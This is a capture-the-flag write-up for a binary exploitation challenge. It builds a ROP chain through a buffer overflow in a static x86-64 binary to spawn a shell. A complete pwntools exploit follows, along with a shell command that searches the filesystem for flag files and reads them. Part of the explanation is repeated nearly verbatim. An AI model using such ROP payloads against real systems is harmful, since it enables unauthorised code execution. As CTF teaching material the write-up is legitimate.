




# Warm-up (THEM-CTF-2026)

## Challenge Overview

- We use `checksec` to check the binary's security.



The binary has **NO PIE**, so all addresses inside it are fixed. This is why we can use ROP.

- Our goal: call `system("/bin/sh")` to get a shell.

## Static Analysis

- We try different inputs and find that we can enter a very long input into the buffer. This is a buffer overflow vulnerability.



- Next, we use IDA to analyze the binary's disassembly.



  - Some functions like `puts` are named `IO_puts`. We should check the binary type:
  - > warm_up: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), **statically linked**, not stripped
  - This means all functions are inside the binary, and we have direct access to their addresses.

- Inside `main`, there is a function called `vuln`.



  - `__libc_read` is called with a limit of `0x120` bytes. This means we can send a long input.

- Looking at the decompiled C code, there are some conditions on our input. We need to keep this in mind.

## Process of Spawning a Shell

- If you are new to ROP, read [this post](https://chihuyenichi.github.io/huyenchi-blog/post/return-oriented-programming) first.

- We need to find gadgets: `pop rdi; ret`, `syscall; ret`, and the string `/bin/sh`. Use ROPgadget:

```
ROPgadget --binary warm-up > gadgets.txt
```

From the output, we get:

```py
syscall_ret  = p64(0x44ebd9)        # syscall; ret
pop_rdi      = p64(0x401f9f)        # pop rdi; ret
```

- But we **cannot find** the string `/bin/sh` in the binary. So we need to write it ourselves into the `.bss` section (a memory area for uninitialized global variables).

### Writing `/bin/sh` into `.bss`

To write into `.bss`, we need:

- The address of `.bss` — where we will store `/bin/sh`
- `pop rax`, `pop rdi`, `pop rsi`, `pop rdx` — to set arguments for the `read` syscall
- `syscall; ret` — to execute the syscall

**Important**: our payload must be shorter than `0x120` bytes.

From the gadgets file, we find:

```py
syscall_ret  = p64(0x44ebd9)        # syscall; ret
xor_eax_ret  = p64(0x40240e)        # xor eax, eax; ret
pop_rax      = p64(0x44ffc7)        # pop rax; ret
pop_rdi      = p64(0x401f9f)        # pop rdi; ret
pop_rsi      = p64(0x40a00e)        # pop rsi; ret
pop_rdx_rbx  = p64(0x485d2b)        # pop rdx; pop rbx; ret
bss_addr     = p64(0x4c72b0)

payload  = b"A" * (0x80 + 0x8)

# read(0, bss, 8)
payload += xor_eax_ret              # rax = 0  (SYS_read)
payload += pop_rdi + p64(0)         # rdi = 0  (stdin)
payload += pop_rsi + bss_addr       # rsi = bss address
payload += pop_rdx_rbx + p64(8) + p64(0)  # rdx = 8 (read 8 bytes)
payload += syscall_ret
```

After sending this payload, the program waits for more input. We send `/bin/sh`.

### Finishing the ROP Chain

Now we execute `execve("/bin/sh", 0, 0)`:

```py
# execve(bss, 0, 0)
payload += pop_rax + p64(59)        # rax = 59 (SYS_execve)
payload += pop_rdi + bss_addr       # rdi = address of "/bin/sh"
payload += pop_rsi + p64(0)         # rsi = 0  (argv = NULL)
payload += pop_rdx_rbx + p64(0) + p64(0)  # rdx = 0  (envp = NULL)
payload += syscall_ret
```
- I can't find the string `/bin/sh`; So we should think about initializing this string in `.bss` (Block Started by Symbol)
    - We can understand `.bss` section as where save statically allocated variables

### Overwriting string `/bin/sh` to `.bss` section
- We need to determine something required for overwrite :
    - `.bss` entry address : It's where we write our expected string
    - `pop rax`, `pop rdi`, `pop rsi`, `pop rdx` : we need all of them as the parameter of `read` function
    - `syscall; ret` : Running command
- Note that the `payload` (our input) must have length smaller than `0x120`
- All addresses we can find from gadgets got above
    ```py
    syscall_ret  = p64(0x44ebd9)        # syscall; ret
    xor_eax_ret  = p64(0x40240e)        # xor eax, eax; ret
    pop_rax      = p64(0x44ffc7)        # pop rax; ret
    pop_rdi      = p64(0x401f9f)        # pop rdi; ret
    pop_rsi      = p64(0x40a00e)        # pop rsi; ret
    pop_rdx_rbx  = p64(0x485d2b)        # pop rdx; pop rbx; ret
    bss_addr     = p64(0x4c72b0)

    payload  = b"A" * (0x80 + 0x8)

    # read(0, bss, 8)
    payload += xor_eax_ret              # rax = 0  (SYS_read)
    payload += pop_rdi + p64(0)         # rdi = 0  (stdin)
    payload += pop_rsi + bss_addr       # rsi = bss
    payload += pop_rdx_rbx + p64(8) + p64(0)
    payload += syscall_ret
    ```
- With this payload, when the binary run, we only need to put the string `/bin/sh`

### Finishing ROP Chain
- We do the remaining executing as follows
    ```py
    # execve(bss, 0, 0)
    payload += pop_rax + p64(59)        # rax = 59 (SYS_execve)
    payload += pop_rdi + bss_addr       # rdi = bss
    payload += pop_rsi + p64(0)         # rsi = 0  (argv = NULL)
    payload += pop_rdx_rbx + p64(0) + p64(0)
    payload += syscall_ret
    ```


## Code Exploiting
```py
from pwn import *

context.binary = binary = ELF("./warm_up")

syscall_ret  = p64(0x44ebd9)        # syscall; ret
xor_eax_ret  = p64(0x40240e)        # xor eax, eax; ret
pop_rax      = p64(0x44ffc7)        # pop rax; ret
pop_rdi      = p64(0x401f9f)        # pop rdi; ret
pop_rsi      = p64(0x40a00e)        # pop rsi; ret
pop_rdx_rbx  = p64(0x485d2b)        # pop rdx; pop rbx; ret
bss_addr     = p64(0x4c72b0)

payload  = b"A" * (0x80 + 0x8)

# read(0, bss, 8)
payload += xor_eax_ret              # rax = 0  (SYS_read)
payload += pop_rdi + p64(0)         # rdi = 0  (stdin)
payload += pop_rsi + bss_addr       # rsi = bss
payload += pop_rdx_rbx + p64(8) + p64(0)
payload += syscall_ret

# execve(bss, 0, 0)
payload += pop_rax + p64(59)        # rax = 59 (SYS_execve)
payload += pop_rdi + bss_addr       # rdi = bss
payload += pop_rsi + p64(0)         # rsi = 0  (argv = NULL)
payload += pop_rdx_rbx + p64(0) + p64(0)
payload += syscall_ret

assert len(payload) == 0x120, f"payload size {len(payload)} != 288"

#p = remote("45.130.164.173", 2233)
p = process()
p.recvuntil(b"aight ! now show me what u got.\n")
p.send(payload)
sleep(0.5)
p.send(b"/bin/sh\0")
sleep(0.5)
p.sendline(b"cat /flag* 2>/dev/null; cat flag* 2>/dev/null; find / -name 'flag*' -exec cat {} \\; 2>/dev/null")
sleep(0.5)
print(p.recv(timeout=2).decode(errors='replace'))
p.close()
```

